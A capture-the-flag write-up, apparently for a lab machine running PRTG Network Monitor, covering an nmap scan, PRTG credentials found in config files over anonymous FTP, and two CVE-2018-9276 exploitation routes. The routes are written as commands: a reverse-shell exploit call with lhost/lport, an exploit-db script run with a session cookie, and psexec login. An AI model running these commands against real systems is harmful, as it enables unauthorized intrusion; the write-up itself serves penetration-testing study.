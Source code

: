 # Enumeration
- We use nmap to enumerate with `nmap -p- -A -T4 -O 10.10.10.152`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-01 12:07 EST
Nmap scan report for 10.10.10.152
Host is up (0.042s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/1%OT=21%CT=1%CU=43318%PV=Y%DS=2%DC=T%G=Y%TM=65BBD
OS:082%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TS=A)SEQ(SP=106%GCD=1
OS:%ISR=108%CI=RD%TS=A)SEQ(SP=106%GCD=1%ISR=108%CI=RI%TS=A)OPS(O1=M53CNW8ST
OS:11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CS
OS:T11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=8
OS:0%W=2000%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F
OS:=AR%O=%RD=0%Q=)T4(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=N
OS:)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=80%W
OS:=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 12h43m07s, deviation: 0s, median: 12h43m07s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-02T05:53:29
|_  start_date: 2024-02-02T05:04:05
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   42.50 ms 10.10.14.1
2   42.57 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.82 seconds
                                                                    
```
- We find a website on port 80![](attachment/37b060f1f7adcd3e12eef1fc3114b36d.png)
- We also find an ftp server with access to c drive
- Searching for data stored by prtg we find that it is stored at:![](attachment/f9810112832e646121c1ae7510635441.png)
- Accessing the location using ftp we find config files:![](attachment/7cddd7eae6f4deda0aa8dfdf72fbe52a.png)
- using get command to download these we search for the default username which is `prtgadmin`
# Exploitation
- We find the login credentials:![](attachment/f39774df0c8abd1bc891d0149e79230f.png) but it fails
- We try replacing 2018 with 2019 and we are logged in.![](attachment/d8a52acaea6a1bec303e585dcc4d8879.png)
- We find an exploit for authenticated user https://github.com/A1vinSmith/CVE-2018-9276 we use the command `./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.25 --lport 4445 --user prtgadmin --password PrTg@dmin2019` to get an admin shell![](attachment/4c7926414817eb1f47b6bb5112be23cd.png)
## Method 2:
- We use the exploit https://www.exploit-db.com/exploits/46527
- A cookie is required for the exploit so we can use burpsuite to intercept![](attachment/7828ab793fe0c3dd2532bdfab3e8116c.png)
- We run the exploit with `./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0U2OTkwN0UwLTA4NDItNDBDNC1CMzk5LTg2OEYxNjVBM0QwQX0%3D"`
- We can use impacket to get a shell using `psexec.py pentest:'P3nT3st!'@10.10.10.152`![](attachment/25127c8d155819d43530eb8f25455328.png)
- we can also use wsiexec or smbexec
